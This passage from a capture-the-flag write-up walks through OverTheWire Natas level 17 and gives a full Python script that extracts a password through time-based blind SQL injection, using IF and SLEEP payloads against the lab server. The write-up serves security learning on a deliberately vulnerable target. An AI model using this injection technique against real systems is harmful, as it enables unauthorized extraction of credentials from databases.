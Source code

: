 
The script runs quite slowly, but it works!

[![result of running exploit script](/images/otw_natas/natas16-3_result.png)](/images/otw_natas/natas16-3_result.png)



### <a name="level-17"></a> Level 17

This level is similar to level 15, where we have to brute force the password storedin the database. The difference now is that the server won't provide any output for whatever query we give.

Hence, we have to find some way to deduce whether our guesses are right ot wrong. We can do so using a [time-based blind SQL injection](https://www.sqlinjection.net/time-based/): if the guess is correct, wait 5 seconds before responding, else respond as soon as you can. This can be achieved using SQL's `SLEEP` and `IF` functions, in addition to the `time` python library to time the response duration.

As such, the final exploit script which is adapted from challenge 15 is:

```python
import time
import requests
from requests.auth import HTTPBasicAuth

url = "http://natas17.natas.labs.overthewire.org/index.php"
basic = HTTPBasicAuth("natas17", "<natas 17 password>")
payload = {"username":""}

chars = ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9']

base = ""

for i in range(64):
    original_length = len(base)
    for c in chars:
        payload["username"] = "natas18\" and IF(password like BINARY \"" + base + c + "%\", sleep(5), 1) #"
        start = time.time()
        response = requests.post(url, auth=basic, params=payload)
        end = time.time()
        if end - start >= 5:
            base += c
            print(base)
            break
    if original_length == len(base):
        break

print("password is: " + base)
```

